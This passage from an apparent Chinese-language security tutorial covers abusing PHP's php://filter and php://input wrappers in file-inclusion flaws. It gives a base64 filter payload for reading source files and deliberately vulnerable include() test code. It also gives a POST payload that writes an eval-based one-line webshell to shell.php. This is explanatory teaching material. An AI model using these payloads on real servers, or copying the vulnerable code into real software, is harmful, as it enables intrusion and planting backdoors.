 
#### **php://filter（本地磁盘文件进行读取）**

元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。

用法：`?filename=php://filter/convert.base64-encode/resource=xxx.php` 一样。

	条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

![aYqlNT.png](https://s1.ax1x.com/2020/08/02/aYqlNT.png)

[https://www.php.net/manual/zh/wrappers.php.php](https://www.php.net/manual/zh/wrappers.php.php)

#### **php://input**

可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 enctype=”multipart/form-data” 的时候 php://input 是无效的。

用法：?file=php://input 数据利用POST传过去

**php://input （读取POST数据）**

碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；

测试代码：

```
<?php
    echo file_get_contents("php://input");
?>
```

读取post包中数据。

**php://input（写入木马）**

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。

如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。

	<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>


如果不开启allow_url_include会报错：

**php://input（命令执行）**

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```
